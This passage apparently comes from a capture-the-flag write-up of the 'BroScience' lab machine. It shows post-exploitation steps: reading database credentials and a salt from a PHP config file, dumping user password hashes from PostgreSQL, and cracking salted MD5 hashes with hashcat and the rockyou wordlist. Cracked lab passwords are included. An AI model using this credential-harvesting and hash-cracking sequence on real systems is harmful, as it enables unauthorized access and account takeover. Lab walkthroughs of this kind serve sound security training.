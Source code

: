 
### Post-Exploitation

Found DB creds:

```

bash-5.1$ cat db_connect.php 
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>bash-5.1$ psql -h localhost -p 5432 -U dbuser -W broscience -qtA
Password: RangeOfMotion%777

broscience=> SELECT usernames,password FROM users; 
administrator|15657792073e8a843d4f91fc403454e1
bill|13edad4932da9dbb57d9cd15b66ed104
michael|bd3dad50e2d578ecba87d5fa15ca5f85
john|a7eed23a7be6fe0d765197b1027453fe
dmytro|5d15340bded5b9395d5d14b9c21bc82b
0xfade|62d19f7e7ddcb5946728776d25e410ed

```

So we found the usernames the passwords, now we can try and crack it, but it won't work because we're missing a key thing here and it is the salt. Recall to the register.php file, you can see how an account is created, over there you can see how a password is created, 

`md5($db_salt . $_POST['password'])`

this is how a password is hashed, first it prefixes a salt to the plain password that entered then it uses md5 to hash the returned string. In the db_connect.php file you can see the salt: `$db_salt = "NaCl";` so we can append that salt to each hashed password and try to crack it with hashcat.

BroScience.txt
```
administrator:15657792073e8a843d4f91fc403454e1:NaCl
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
john:a7eed23a7be6fe0d765197b1027453fe:NaCl
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl
```

**Using Windows**:
```

> .\hashcat.exe -m 20 --username .\hashes\BroScience.txt ..\rockyou.txt -O
...Wait till it finishes... 

> .\hashcat.exe -m 20 --username .\hashes\BroScience.txt ..\rockyou.txt --show
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest

```

